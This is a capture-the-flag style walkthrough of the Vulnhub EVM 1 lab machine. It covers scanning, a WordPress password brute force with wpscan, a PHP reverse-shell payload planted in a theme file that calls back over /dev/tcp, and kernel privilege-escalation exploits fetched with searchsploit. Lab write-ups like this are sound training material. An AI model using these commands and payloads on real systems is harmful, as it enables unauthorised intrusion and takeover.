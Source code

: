 +++
title = "Vulnhub: EVM 1"
date = "2021-03-05"
author = ""
authorTwitter = "" #do not include @
tags = ["Beginner", "Vulnhub", "OSCP Prep", "Password Bruteforce", "WordPress", "WPScan"]
keywords = ["", ""]
description = ""
showFullContent = false
cover = "/img/evm/evm.png"
+++



| Difficulty | Release Date | Author |
| ---------- | ------------ | ------ | 
| Beginner   | 2 Nov 2019   | Ic0de  | 


# Summary

This was an easy box, initial foothold was on wordpress. You needed to bruteforce the admin creds
then get a reverse shell via editing a theme file to get the reverse shell. Escalating to root
was straightforward as we found the root password in a txt file. Some kernel exploits could have also
been used for privilege escalation.

# Reconnaissance

Nmap

```sh
Nmap scan report for 192.168.56.103
Host is up (0.00028s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a2:d3:34:13:62:b1:18:a3:dd:db:35:c5:5a:b7:c0:78 (RSA)
|   256 85:48:53:2a:50:c5:a0:b7:1a:ee:a4:d8:12:8e:1c:ce (ECDSA)
|_  256 36:22:92:c7:32:22:e3:34:51:bc:0e:74:9f:1c:db:aa (ED25519)
53/tcp  open  domain      ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: CAPA RESP-CODES SASL AUTH-RESP-CODE TOP UIDL PIPELINING
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: more post-login LOGINDISABLEDA0001 ID LOGIN-REFERRALS listed IMAP4rev1 have capabilities OK ENABLE Pre-login LITERAL+ SASL-IR IDLE
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: UBUNTU-EXTERMELY-VULNERABLE-M4CH1INE; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h39m59s, deviation: 2h53m12s, median: -1s
|_nbstat: NetBIOS name: UBUNTU-EXTERMEL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: ubuntu-extermely-vulnerable-m4ch1ine
|   NetBIOS computer name: UBUNTU-EXTERMELY-VULNERABLE-M4CH1INE\x00
|   Domain name: \x00
|   FQDN: ubuntu-extermely-vulnerable-m4ch1ine
|_  System time: 2021-03-04T15:43:32-05:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-03-04T20:43:32
|_  start_date: N/A
```

# Enumeration

## Samba (139,445)

Running smbmap and smbclient there's not much there.

```sh
smbmap -R -H 192.168.56.103

smbclient -L \\192.168.56.103 -N
```

{{< image src="/img/evm/evm1.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

From enum4linux-ng we only get a username

```sh
enum4linux-ng -A -R 192.168.56.103
```

{{< image src="/img/evm/evm2.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

## HTTP (80)

Visiting the ip on the browser there's only the apache default page.

Running directory bruteforce, we discover wordpress. 

{{< image src="/img/evm/evm3.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Wordpress:

{{< image src="/img/evm/evm4.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Some of the comments hint towards bruteforcing credentials.

{{< image src="/img/evm/evm5.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Bruteforcing the login page on wordpress we get the password `24992499`

```sh
wpscan --url http://192.168.56.103/wordpress/ -U c0rrupt3d_brain -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt -t 100
```

{{< image src="/img/evm/evm7.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

# Shell as www-data
With admin access we can edit one of the wordpress theme files to get a reverse shell with this php payload.

```php
<?php exec("/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.56.1/9000 0>&1 &'")?>
```

{{< image src="/img/evm/evm6.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Loading the following url we get a reverse shell.

```
http://192.168.56.103/wordpress/wp-content/themes/twentynineteen/404.php
```

{{< image src="/img/evm/evm8.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Changing directory to /home there's one user's folder. Looking at all the files in this directory there's a hidden
file with the root user's password.
 
{{< image src="/img/evm/evm9.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

# Shell as root

Using the password `willy26` I switched to the root user.

{{< image src="/img/evm/evm10.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

# Extras

Privilege escalation could have also been achieved via kernel exploit.

{{< image src="/img/evm/evm11.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

The box is running ubuntu 16.04.3 and kernel version 4.4.0-87. Searching for exploits using searchsploit
we get several hits.

{{< image src="/img/evm/evm12.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Getting the first local privilege escalation script and transferring the compiled binary to the target, it works.
```sh
searchsploit -m 45010

gcc 45010.c -o pwn
```

{{< image src="/img/evm/evm13.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

The second one `44298` also works.

{{< image src="/img/evm/evm14.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

